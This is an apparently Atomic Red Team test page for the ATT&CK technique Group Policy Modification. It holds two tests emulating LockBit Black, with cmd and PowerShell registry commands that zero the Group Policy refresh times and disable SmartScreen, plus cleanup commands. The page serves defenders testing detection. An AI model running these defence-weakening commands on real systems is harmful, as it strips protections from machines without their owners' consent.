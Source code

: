 # T1484.001 - Domain Policy Modification: Group Policy Modification
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1484/001)
<blockquote>Adversaries may modify Group Policy Objects (GPOs) to subvert the intended discretionary access controls for a domain, usually with the intention of escalating privileges on the domain. Group policy allows for centralized management of user and computer settings in Active Directory (AD). GPOs are containers for group policy settings made up of files stored within a predictable network path `\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\`.(Citation: TechNet Group Policy Basics)(Citation: ADSecurity GPO Persistence 2016) 

Like other objects in AD, GPOs have access controls associated with them. By default all user accounts in the domain have permission to read GPOs. It is possible to delegate GPO access control permissions, e.g. write access, to specific users or groups in the domain.

Malicious GPO modifications can be used to implement many other malicious behaviors such as [Scheduled Task/Job](https://attack.mitre.org/techniques/T1053), [Disable or Modify Tools](https://attack.mitre.org/techniques/T1562/001), [Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105), [Create Account](https://attack.mitre.org/techniques/T1136), [Service Execution](https://attack.mitre.org/techniques/T1569/002),  and more.(Citation: ADSecurity GPO Persistence 2016)(Citation: Wald0 Guide to GPOs)(Citation: Harmj0y Abusing GPO Permissions)(Citation: Mandiant M Trends 2016)(Citation: Microsoft Hacking Team Breach) Since GPOs can control so many user and machine settings in the AD environment, there are a great number of potential attacks that can stem from this GPO abuse.(Citation: Wald0 Guide to GPOs)

For example, publicly available scripts such as <code>New-GPOImmediateTask</code> can be leveraged to automate the creation of a malicious [Scheduled Task/Job](https://attack.mitre.org/techniques/T1053) by modifying GPO settings, in this case modifying <code>&lt;GPO_PATH&gt;\Machine\Preferences\ScheduledTasks\ScheduledTasks.xml</code>.(Citation: Wald0 Guide to GPOs)(Citation: Harmj0y Abusing GPO Permissions) In some cases an adversary might modify specific user rights like SeEnableDelegationPrivilege, set in <code>&lt;GPO_PATH&gt;\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf</code>, to achieve a subtle AD backdoor with complete control of the domain because the user account under the adversary's control would then be able to modify GPOs.(Citation: Harmj0y SeEnableDelegationPrivilege Right)</blockquote>

## Atomic Tests

- [Atomic Test #1 - LockBit Black - Modify Group policy settings -cmd](#atomic-test-1---lockbit-black---modify-group-policy-settings--cmd)

- [Atomic Test #2 - LockBit Black - Modify Group policy settings -Powershell](#atomic-test-2---lockbit-black---modify-group-policy-settings--powershell)


<br/>

## Atomic Test #1 - LockBit Black - Modify Group policy settings -cmd
An adversary can modify the group policy settings.

**Supported Platforms:** Windows


**auto_generated_guid:** 9ab80952-74ee-43da-a98c-1e740a985f28






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v GroupPolicyRefreshTimeDC /t REG_DWORD /d 0 /f
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v GroupPolicyRefreshTimeOffsetDC /t REG_DWORD /d 0 /f
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v GroupPolicyRefreshTime /t REG_DWORD /d 0 /f
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v GroupPolicyRefreshTimeOffset /t REG_DWORD /d 0 /f
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v EnableSmartScreen /t REG_DWORD /d 0 /f
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v ShellSmartScreenLevel /t REG_SZ /d Block /f
```

#### Cleanup Commands:
```cmd
reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v GroupPolicyRefreshTimeDC /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v GroupPolicyRefreshTimeOffsetDC /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v GroupPolicyRefreshTime /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v GroupPolicyRefreshTimeOffset /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v EnableSmartScreen /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v ShellSmartScreenLevel /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #2 - LockBit Black - Modify Group policy settings -Powershell
An adversary modifies group policy settings

**Supported Platforms:** Windows


**auto_generated_guid:** b51eae65-5441-4789-b8e8-64783c26c1d1






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name GroupPolicyRefreshTimeDC -PropertyType DWord -Value 0 -Force
New-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name GroupPolicyRefreshTimeOffsetDC -PropertyType DWord -Value 0 -Force
New-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name GroupPolicyRefreshTime -PropertyType DWord -Value 0 -Force
New-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name GroupPolicyRefreshTimeOffset -PropertyType DWord -Value 0 -Force
New-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name EnableSmartScreen -PropertyType DWord -Value 0 -Force
New-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name ShellSmartScreenLevel -Force
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name GroupPolicyRefreshTimeDC -Force -ErrorAction Ignore
Remove-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name GroupPolicyRefreshTimeOffsetDC -Force -ErrorAction Ignore 
Remove-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name GroupPolicyRefreshTime -Force -ErrorAction Ignore
Remove-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name GroupPolicyRefreshTimeOffset -Force -ErrorAction Ignore
Remove-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name EnableSmartScreen -Force -ErrorAction Ignore
Remove-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name ShellSmartScreenLevel -Force -ErrorAction Ignore
```





<br/>
